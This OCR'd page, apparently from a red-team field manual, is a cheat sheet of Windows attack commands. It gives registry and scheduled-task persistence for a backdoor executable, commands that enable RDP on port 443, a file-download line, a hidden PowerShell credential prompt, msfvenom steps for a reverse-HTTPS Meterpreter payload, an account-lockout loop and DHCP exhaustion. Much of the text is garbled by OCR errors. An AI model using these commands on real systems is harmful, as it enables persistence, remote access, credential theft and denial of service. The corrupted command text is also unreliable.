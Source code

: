 ```plaintext
1. REG add HKEY CURRENT USER\Software\l1icrosoft\W indows\CurrentV ersion\Run /v firewall 7t REG SZ /d "c:\windows\system32\backdoor.exe" /f
2. at 19:00 /every:t1,T,W,Th,F cmd /c start "%USERPROFILE%\backdoor.exe"
3. SCHTASKS /Create /RU "SYSTEt1" /SC l1INUTE /t10 45 /TN FIREWALL /TR
"%USERPROFILE%\backdoor.exe" /ED 12/12/2012
```

## Start RDP

```powershell
reg add "HKEY LOCAL MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
(Tunnel RDP through port 443) REG ADD "HKLM\System\CurrentControlSet\Control\Terminal
Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d 443 /f
```

## PowerShell Enumeration

```powershell
Get-WmiObject -class win32 operatingsjstem I select -property 1 csv c:\os.txt
Get-Service I where object {$ .status -eq ''Running''}
(new-object sjstem.net.webclient) .downloadFile(''url'',''dest'')
powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass $Host.UI.PromptForCredential( 11 title ", 11 message 11 1 11 user" 11 domain")
powershell.exe Send-l-1ai1Hessage -to " email " -from " email " -subject "Subject11 -a " attachment file path " -body "Body" -SmtpServer Target Email Server IP
```

## PowerShell Launching Meterpreter Payload

1. msfvenom -p Wlndows/meterpreter/reverse https -f psh -a x86 LHOST=l.l.l.l LPORT=443 audit.ps1
2. Move audit.ps1 into same folder as encodeMeterpreter.ps1
3. Launch Powershell (x86)
4. powershell.exe -executionpolicy bypass encodeMeterpreter.ps1
5. Copy the encoded Meterpreter string

## Windows User Lockout

```batch
@echo T est run:
for /f %%U in (list.txt) do @for /1 %%C in (1,1,5) do @echo net use \\WIN- 1234\c$ /USER:%%U wrongpass
```

## Windows DHCP Exhaustion

```powershell
for /L %i in (2,1,254) do (netsh interface ip set address local static
1.1.1.%i netrnask gw I~ %1 ping 12-.0.0.1 -n l -w 10000 nul %1)
```

## Rolling Reboot
